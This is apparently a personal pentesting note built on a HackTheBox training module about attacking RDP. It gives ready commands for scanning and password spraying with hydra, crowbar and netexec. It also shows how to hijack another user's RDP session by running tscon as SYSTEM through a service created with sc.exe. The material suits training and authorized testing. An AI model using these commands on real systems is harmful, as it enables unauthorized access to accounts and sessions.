 ##### Scanning
```bash
nmap -sV -sC $ip -p3389 --script rdp*
```
##### Connecting
```bash
xfreerdp3 /v:$ip /u:htb-rdp /p:'HTBRocks!' /dynamic-resolution /drive:OP,/home/adot/opt

xfreerdp /u:user /p:"P455w0rd!" /v:$ip
rdesktop $ip
```
##### Password Spraying
```bash
crowbar -b rdp -s $ip/32 -U users.txt -c 'password123'
hydra -L usernames.txt -p 'password123' $ip rdp
netexec rdp $ip -u users.txt -p 'password123'
```
##### EDR Evaison
```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl $ip
```

#### [Pass-The-Hash](obsidian://open?vault=Penetration%20Testing&file=Root%2FActive%20Directory%2FPass-the-Hash)
Explained Here 

The [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a protocol developed by Microsoft for remote access to a computer running the Windows operating system. This protocol allows display and control commands to be transmitted via the GUI encrypted over IP networks. RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration

### Session Hijacking
As shown in the example below, we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-1-2.png)

```powershell
query user
```
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session).

```powershell
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

We can create a service that will run tscon as **SYSTEM**
```powershell
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```
![[Pasted image 20250120065528.png]]